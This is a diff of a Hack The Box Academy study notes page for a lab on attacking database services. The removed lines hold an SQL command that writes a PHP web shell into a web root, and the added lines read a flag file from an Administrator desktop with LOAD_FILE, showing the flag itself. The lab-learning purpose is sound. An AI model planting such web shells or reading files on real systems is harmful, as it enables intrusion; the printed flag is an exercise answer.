

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
+++ b/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
@@ -140,12 +140,21 @@ Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
 MariaDB [(none)]>
 ```
 
-**mysql database**
+**Flag: LOAD_FILE Function**
 
-- use the mysql database
-- create a file
+- Use the LOAD_FILE function to read the flag on the Admin's desktop
+- How did I know it was there? From doing a lot of boxes, flags are usually on the admin's or some users desktop
 ```
-SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
+MariaDB [(none)]> SELECT LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
++------------------------------------------------------+
+| LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt") |
++------------------------------------------------------+
+| HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}              |
++------------------------------------------------------+
+1 row in set (0.031 sec)
+
+MariaDB [(none)]>
+
 ```
 
 ## Medium
````
